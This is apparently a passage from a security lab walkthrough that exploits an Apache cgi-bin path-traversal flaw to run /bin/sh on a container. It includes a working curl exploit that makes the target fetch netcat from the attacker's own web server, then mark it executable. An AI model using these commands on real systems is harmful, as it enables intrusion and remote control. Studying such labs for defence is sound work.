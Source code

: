 # 5. First of all please determine the local IP address of our "attacker-instance" workstation:
```
LOCAL_IP=$(ip -4 addr show ens4 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')
echo ${LOCAL_IP}
```

# 6. Now start a primitive python-based web-server in background mode:
```
python3 -m http.server --bind ${LOCAL_IP} \
--directory ~/netcat-traditional/bin/ 8888 &
```

# 8. Now check whether our local web server works or not by using the curl command:
```
curl http://${LOCAL_IP}:8888
```

# 9. On the container itself we initiate downloading the nc.traditional from our 
# "attacker-instance" using the following curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc command:
```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
--path-as-is --insecure --data "echo Content-Type: text/plain; echo; curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc"
```
![image](https://github.com/Pruthvi360/linux_security/assets/107435692/8003cbb2-a668-4595-a17f-7e4f1f01cefb)
1. We run the curl command on the Attacker instance and connect to the Apache
2. Apache runs the curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc command using /bin/sh shell.
3. The curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc command connects to the Attackers instance
4. The curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc command fetches the nc.traditional binary file
5. The curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc command saves the nc.traditional binary file as /tmp/nc file in the running container
6. The curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc command returns the message 10.8.0.8 - - [15/Jul/2023 18:11:34] "GET /nc.traditional HTTP/1.1" 200 - to Apache
7. Apache confirms that the remote command was executed successfully

# 10. Now netcat-traditional is on the remote container. Make it executable by using the chmod +x /tmp/nc command
